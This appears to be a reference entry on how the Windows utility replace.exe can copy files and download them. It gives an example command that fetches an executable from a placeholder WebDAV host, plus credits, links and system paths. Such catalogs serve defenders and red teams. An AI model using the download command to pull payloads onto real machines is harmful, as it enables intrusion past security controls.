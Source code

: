 ## Replace.exe

* Functions: Copy, Download

```
replace c:\source\file.cab c:\destination /A
     
replace \\webdav.host.com\foo\bar.exe c:\outdir /A

```

Acknowledgements:
* elceef - @elceef

Code sample:
* 

Resources:
* https://twitter.com/elceef/status/986334113941655553
* https://twitter.com/elceef/status/986842299861782529

Full path:
```
c:\windows\system32\replace.exe
c:\windows\sysWOW64\replace.exe
```

Notes:



 
